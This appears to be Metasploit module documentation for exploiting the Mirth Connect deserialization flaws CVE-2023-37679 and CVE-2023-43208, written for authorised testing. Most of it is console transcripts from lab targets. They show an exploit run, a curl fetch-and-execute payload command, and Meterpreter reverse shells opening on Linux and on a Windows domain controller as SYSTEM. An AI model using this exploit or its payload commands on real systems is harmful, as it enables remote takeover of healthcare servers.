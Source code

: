 ## Vulnerable Application
A vulnerability exists within Mirth Connect due to its mishandling of deserialized data. This vulnerability
can be leveraged by an attacker using a crafted HTTP request to execute OS commands within the context of the
target application. The original vulnerability was identified by IHTeam and assigned CVE-2023-37679. Later,
researchers from Horizon3.ai determined the patch to be incomplete and published a gadget chain which bypassed
the deny list that the original had implemented. This second vulnerability was assigned CVE-2023-43208 and was
patched in Mirth Connect version 4.4.1. This module has been tested on versions 4.1.1, 4.3.0 and 4.4.0.

### Setup (Linux with Docker)

1. Run the application in docker: `docker run --name mirth-connect --rm -d -p 8443:8443 nextgenhealthcare/connect:4.4.0`

### Setup (Windows)

1. Download the desired release from the [GitHub page][1]
2. Install a Java runtime
3. Install Mirth Connect
    1. Accept all default values for every stage of the installation

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/mirth_connect_cve_2023_43208`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Mirth Connect 4.4.0 in Docker

Note that Python is not available in the docker container, so no Python payloads will work.

```
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Unix\ Command 
TARGET => Unix Command
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http
Display all 106 possibilities? (y or n)
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/mirth_connect_cve_2023_43208) > exploit

[*] Command to run on remote host: curl -so /tmp/PFYkPcUX http://192.168.159.128:8080/jvE_gjDKxuQo86-91TitNQ; chmod +x /tmp/PFYkPcUX; /tmp/PFYkPcUX &
[*] Fetch Handler listening on 192.168.159.128:8080
[*] HTTP server started
[*] Adding resource /jvE_gjDKxuQo86-91TitNQ
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.1.1
[+] The target appears to be vulnerable. Version 4.1.1 is affected by CVE-2023-37679.
[*] Executing cmd/linux/http/x64/meterpreter/reverse_tcp (Unix Command)
[+] The target appears to have executed the payload.
[*] Client 192.168.159.128 requested /jvE_gjDKxuQo86-91TitNQ
[*] Sending payload to 192.168.159.128 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.159.128
[*] Meterpreter session 6 opened (192.168.159.128:4444 -> 192.168.159.128:49360) at 2024-01-26 17:11:37 -0500

meterpreter > getuid
Server username: mirth
meterpreter > sysinfo
Computer     : 10.0.2.100
OS           : Debian 11.4 (Linux 6.6.12-200.fc39.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/connect
meterpreter >
```

### Mirth Connect 4.4.0 on Windows Server 2019

```
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Windows\ Command 
TARGET => Windows Command
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/mirth_connect_cve_2023_43208) > run

[*] Powershell command length: 4418
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.4.0
[+] The target appears to be vulnerable. Version 4.4.0 is affected by CVE-2023-43208.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[+] The target appears to have executed the payload.
[*] Sending stage (201798 bytes) to 192.168.159.10
[*] Meterpreter session 5 opened (192.168.159.128:4444 -> 192.168.159.10:60705) at 2024-01-26 17:10:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 13
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\Mirth Connect
meterpreter > 
```

[1]: https://github.com/nextgenhealthcare/connect/releases

